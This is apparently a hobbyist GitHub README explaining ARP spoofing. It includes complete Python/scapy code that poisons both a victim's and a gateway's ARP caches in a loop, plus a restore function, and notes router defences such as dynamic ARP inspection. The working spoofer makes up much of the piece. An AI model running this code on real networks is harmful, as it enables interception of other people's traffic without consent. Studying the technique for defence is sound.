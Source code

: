 # How to check if your router tries to protect you

**ARP Spoofing** also known as Man in the Middle is simple but powerful attack. It exploits the vulnerabilites of ARP (Address Resolution Protocol)

-------------------------------------------------------------------------------

## How ARP Spoofing Works

Normally these are how the computers in a network communicate (this works for ethernet switches).  

![Load](https://documentation.meraki.com/@api/deki/files/5903/Screen_Shot_2017-12-03_at_8.09.11_PM.png?revision=1&size=bestfit&width=622&height=242)

The victim (who is not the victim yet) sends an ARP broadcast to ask what are the MAC addresses of the machines with the given IP. For example, the ARP request asks who 10.10.10.20 is, the router has that IP and the router sends its MAC address to the machine that asked. The machine will then update its table so whenever it needs to send something to 10.10.10.20, it will send it to the MAC address that was given. You may now see what the vulnerability is. I could send a message to the victim saying that I'm 10.10.10.20 but give it **MY** MAC address. Now when it needs to send something to 10.10.10.20, it will send the requests to my MAC address. *The **power** feels great!*

![Get rekt](https://miro.medium.com/max/4800/1*Nz1e4AfW6HGcgXde_eIwUg.jpeg)

-------------------------------------------------------------------------------

## How the Code Works

Remember, we need to tell the victim that we're the router, so we'll create a packet doing just that. I should also say I used the library scapy.
```python
def spoof(targetip, targetmac, sourceip):
    spoofed = ARP(op=2 , pdst=targetip, psrc=sourceip, hwdst= targetmac)
    send(spoofed, verbose= False)
```
What this does is create a packet with packet destination (pdst) of the target, this tells them this packet was especially made for them, packet source (psrc) of the router so it looks like it's coming from them, and hwdst (hardware destination) is to send it to the right person. This packet will have a hwsrc (hardware source) of our IP so they associate our MAC address with the router's IP. 
```python
def restorearp(targetip, targetmac, sourceip, sourcemac):
    packet = ARP(op=2 , hwsrc=sourcemac , psrc= sourceip, hwdst= targetmac , pdst= targetip)
    send(packet, verbose=False)
    print("ARP Table restored to normal for", targetip)
```
The code above is to reverse previous actions, telling the victim that the IP of router should be associated with the MAC of the router. You literally have to reverse it, showing the **power** of the attack. 
```python
def main():
    targetip = "192.168.0.24"
    gatewayip = "192.168.0.1"
    targetmac = "a4:5e:60:b9:d6:ab"
    gatewaymac = "9c:c9:eb:c9:1a:1a"

    try:
        print("Sending spoofed ARP responses")
        #restorearp(gatewayip, gatewaymac, targetip, targetmac)
        #restorearp(targetip, targetmac, gatewayip, gatewaymac)
        while True:
            spoof(targetip, targetmac, gatewayip)
            spoof(gatewayip, gatewaymac, targetip)
    except KeyboardInterrupt:
        print("ARP spoofing stopped")
        restorearp(gatewayip, gatewaymac, targetip, targetmac)
        restorearp(targetip, targetmac, gatewayip, gatewaymac)
        quit()

if __name__=="__main__":
    main()
``` 
Here I specify the IP addresses and MAC addresses. You could automate this part, but if you have something like nmap or a network scanner (you can code this as well) you can find the addresses and manual code them in. Then we send the packets, we have to do this repeatedly so the victim thinks we're the router. If you want to turn it off, you can use Ctrl+C and it'll revert it. 

-------------------------------------------------------------------------------

## Why it may not work for you

I wasn't initially planning on making this section, but we got a new router and the spoofer doesn't wor anymore. This is actually a good thing, but not for this project. I started doing research to figure out what happened,

![Literally Me](https://pbs.twimg.com/media/EIzT11bU8AAgvlM.jpg)

I was enlightened with the knowledge of this random stackoverflow dude

>The spoof should work almost immediately if it is working properly. New devices will see the gratuitous arp from the attacker and automatically update their >cache. A victim will not detect duplicate IP, they should just update the mapping. The problem is likely at the router.
>
>Arpspoof works through a switch because the switch has no way of knowing which port the legitimate IP address/MAC mapping is, so without any form of port >security/DHCP snooping/Dynamic arp inspection, it has to trust that a device is who it says it is when it claims "192.168.1.1 is at aa:bb:cc:dd:ee:aa" in its >arp reply/gratuitous arp.
>
>                                                                                                     ~Some dude on Stack Overflow

What this basically says is the router is being skeptical. ARP Spoofing depends a lot on the router trusting the hacker's computer. The switch is doing what we want it to do, but the router is detecting something fishy from the hacker's computer. 

-------------------------------------------------------------------------------

## What I learned

 I must the router screwing up everything led to me learning a lot more than what I would've. 
 
 1. ARP Spoofing, I learned what ARP Spoofing is and how to do it.
 2. nmap and netstat, I used these programs to find IP and MAC addresses.
 3. MacPorts, Port forwarding, IP forwarding, I had to enable these to get it to work.
 4. A bunch of command line stuff, I learned more about command line and different ways to troubleshoot using terminal.
 5. Scapy, I used the library scapy to create packages. 
 6. A lot about networks, permissions, and many other things. 

